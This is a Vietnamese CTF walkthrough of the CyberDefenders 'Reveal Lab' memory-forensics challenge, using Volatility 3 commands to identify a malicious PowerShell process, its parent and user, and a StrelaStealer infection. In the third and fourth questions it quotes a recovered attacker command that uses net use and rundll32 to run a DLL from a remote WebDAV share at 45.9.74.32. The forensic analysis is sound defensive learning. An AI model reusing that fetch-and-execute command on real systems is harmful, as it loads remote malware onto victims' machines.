 ```yaml
---
title: Reveal Lab
sidebar_position: 2
---
```


Hello mọi người, cùng tôi và cậu ấy giải bài tập CTF nhé :3. Giới thiệu chút thì bài này là[Reveal Lab](https://cyberdefenders.org/blueteam-ctf-challenges/reveal/), thuộc loại Endpoint Forensics, mức dễ. Bài này thì cũng có [hướng dẫn chính thức](https://cyberdefenders.org/walkthroughs/reveal/) rồi, nên tôi và cậu ấy sẽ viết lại quá trình suy nghĩ của mình cũng như những thông tin chúng tôi thấy quan trọng. Bắt đầu nhé :3

## Ngữ cảnh

Bạn là một forensic investigator tại một tổ chức tài chính và SIEM của bạn gắn flag hoạt động bất thường trên máy trạm (workstation) có quyền truy cập vào dữ liệu tài chính nhạy cảm. Nghi ngờ đó là một hành vi vi phạm, bạn đã nhận được một file .dmp xuất từ bộ nhớ của máy bị xâm phạm. Nhiệm vụ của bạn là phân tích bộ nhớ cho các dấu hiệu xâm phạm, theo dõi nguồn gốc của hành vi bất thường và đánh giá phạm vi của nó để quản lý sự cố một cách hiệu quả.

---

## 🛠️ Công cụ sử dụng

Volatility 3 là một framework pháp y bộ nhớ được sử dụng rộng rãi trong điều tra số để phân tích dữ liệu từ RAM dumps. Công cụ này giúp các chuyên gia bảo mật kiểm tra và phát hiện dấu vết hoạt động đáng ngờ trên hệ thống.

![Install Volatility 3](./img/Reveal.png)

### Cách Volatility 3 xử lý bộ nhớ

- **Xác định hệ điều hành:** Volatility 3 tự động nhận diện OS profile để diễn giải đúng cấu trúc dữ liệu trong bộ nhớ.
- **Sử dụng Symbol Tables:** Symbol tables giúp phân tích chính xác layout của bộ nhớ trên các phiên bản hệ điều hành khác nhau.

### Cách Volatility 3 sử dụng Plugins để phân tách dữ liệu

- **Plugin Execution:** Mỗi plugin đảm nhiệm một tác vụ cụ thể như liệt kê tiến trình, kiểm tra kết nối mạng, hoặc phân tích DLL đã tải.
- **Output và Phân Tích:** Plugins trích xuất thông tin có giá trị để giúp điều tra hành vi hệ thống và phát hiện mã độc.

### 📜 Cheatsheet có thể giúp bạn Volatility 3:

- [Ashley Pearson Cheatsheet](https://blog.onfvp.com/post/volatility-cheatsheet/)
- [Hacktricks Cheatsheet](https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/memory-dump-analysis/volatility-cheatsheet)

---

## 🔬 Quá trình phân tích

Là một người điều tra, bạn phải tự hỏi mình ba câu hỏi chính:

- **What** - Bạn đang tìm kiếm điều gì? (ví dụ: một loại tệp cụ thể, tên người dùng, ...)
- **Where** - Bạn sẽ tìm thấy bằng chứng tấn công ở đâu? (ví dụ: bộ nhớ, dựa trên máy chủ, mạng, ...)
- **How** - Bạn có thể làm thế nào để thao tác dữ liệu và xem nó?

### 🔍 Câu 1: Xác định tên của tiến trình độc hại giúp hiểu bản chất của cuộc tấn công. Tên của tiến trình độc hại là gì?

| Trả lời | powershell.exe |
| ------- | -------------- |

Thú thật với mọi người thì đây là lần đầu tôi và đụng tới file .dmp này và công cụ Volatility 3 lun á :v Trước giờ có nghe nhắc đến nhưng chưa có cơ hội trải nghiệm.

Cứ bắt tay vào làm trước đã, theo như hướng dẫn ở trên, tôi hỏi cậu ấy 3 câu hỏi:

- **Tìm cái gì:** quá trình độc hại - malicious process.
- **Tìm ở đâu:** Trong file .dmp được cung cấp, chắc chắn rồi :v
- **Làm thế nào:** Trước tiên phải xác định được tiến trình thế nào là độc hại và bình thường đã, theo gợi ý thì tôi có thể search ở trang [SANS](https://sansorg.egnyte.com/dl/WFdH1hHnQI), đây là trang tổng hợp đặc điểm nhận dạng của các tiến trình độc hại. Dò thủ công thì khó phát hiện và tốn thời gian, tôi cần ưu tiên tốc độ nên sẽ dùng Volatility3, câu lệnh sẽ là:

`vol -f /home/vita/Downloads/192-Reveal.dmp windows.malfind`

Sau khi chạy câu lệnh thì có vài kết quả như RuntimeBroker, thunderbird và powershell. Thử nhập kết quả lần lượt thì powershell là đáp án chính xác. :v Thực tế thì sẽ phải kiểm tra mọi kết quả nhé mọi người.
![malfind command](<./img/Reveal(2).png>)
![malfind command2](<./img/Reveal(3).png>)

### 🔍 Câu 2: Biết ID tiến trình cha (PPID) của tiến trình độc hại hỗ trợ theo dõi, phân cấp tiến trình và hiểu được luồng tấn công. PID cha của tiến trình độc hại là gì?

| Trả lời | 4120 |
| ------- | ---- |

- **Tìm cái gì:** PID cha của tiến trình độc hại.
- **Tìm ở đâu:** Trong file .dmp được cung cấp, chắc chắn rồi :v
- **Làm thế nào:** Volatility3 có hỗ trợ xác định cây tiến trình nên tôi sẽ tận dụng chức năng này, với lại tiến trình powershell.exe trên có PID là 3692 nên tôi sẽ lọc ra những thông tin liên quan tới PID này thôi.

`vol -f /home/vita/Downloads/192-Reveal.dmp windows.pstree | grep "3692"`

![PPID](<./img/Reveal(4).png>)

### 🔍 Q3: Tệp tin nào được sử dụng để thực thi payload giai đoạn hai?

| Trả lời | 3435.dll |
| ------- | -------- |

- **Tìm cái gì:** Tên file thực thi payload giai đoạn hai.
- **Tìm ở đâu:** Lệnh thực thi của powershell ban đầu.
- **Tìm thế nào:** Thật ra thì thông tin chi tiết của tiến trình cũng có hiển thị ở đáp án câu trước, nhưng mà hơi thừa thông tin và khó nhìn, nên thôi người ta có chức năng nào thì mình dùng đúng chức năng đó :v theo kết quả tìm được thì "rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry" là sử dụng rundll32.exe để chạy file 3435.dll, vì rundll32.exe là một tiện ích của Windows nên có thể tránh bị phát hiện.

`vol -f /home/vita/Downloads/192-Reveal.dmp windows.cmdline | grep "3692"`

![cmd line](<./img/Reveal(5).png>)

### 🔍 Q4: Tên thư mục chia sẻ được truy cập trên máy chủ từ xa?

| Trả lời | davwwwroot |
| ------- | ---------- |

- **Tìm cái gì:** Tên thư mục chia sẻ được truy cập.
- **Tìm ở đâu:** tương tự như trên, vì câu lệnh vẫn chưa phân tích hết.
- **Tìm thế nào:** Trong câu lệnh lúc nãy có phần "net use \\45.9.74.32@8888\davwwwroot\" dễ nhận thấy được net trong network và dãy IP với port, nên có thể lờ mờ đoán được đây là kết nối tới máy chủ của attacker, và phần phía sau là đường dẫn thư mục.

### 🔍 Q5: Mã kỹ thuật MITRE ATT&CK liên quan đến phương thức thực thi này?

| Trả lời | T1218.011 |
| ------- | --------- |

- **Tìm cái gì:** Mã sub-technique của MITRE ATT&CK liên quan đến phương thức thực thi.
- **Tìm ở đâu:** dựa tên cách rundll32.exe được sử dụng để thực thi DLL từ xa và
- **Tìm thế nào:** truy cập vào trang [attack.mitre.org](https://attack.mitre.org/techniques/T1218/011/) để tìm, từ khóa là rundll32.exe.

### 🔍 Q6: Tên người dùng mà quá trình độc hại chạy dưới quyền của người đó?

| Trả lời | Elon |
| ------- | ---- |

- **Tìm cái gì:** Tài khoản người dùng.
- **Tìm ở đâu:** The Security Identifiers (SIDs) liên kết với quá trình.
- **Tìm thế nào:** rất may là Volatility cũng hỗ trợ chức năng tìm theo SIDs nên tôi sẽ sử dụng nó, và vẫn lọc thông tin theo PID 3692 của powershell.exe ban đầu. Theo kết quả thì thấy được người dùng là **Elon**, với SID S-1-5-21-3274565340-3808842250-3617890653-1001, quyền truy cập vào Domain, quyền Administrator và thậm chí là quyền hệ thống!?

`vol -f /home/vita/Downloads/192-Reveal.dmp windows.getsids.GetSIDs | grep "3692"`

![SIDs](<./img/Reveal(6).png>)

### 🔍 Q7: Tên của malware family?

| Trả lời | StrelaStealer |
| ------- | ------------- |

- **Tìm cái gì:** Tên của họ malware (họ hàng ấy nha) liên quan đến cuộc tấn công.
- **Tìm ở đâu:** Dữ liệu từ **VirusTotal** và các trang có Threat Intelligence reports.
- **Tìm thế nào:** kiểm tra địa chỉ IP độc hại 45.9.74.32 trên VirusTotal.
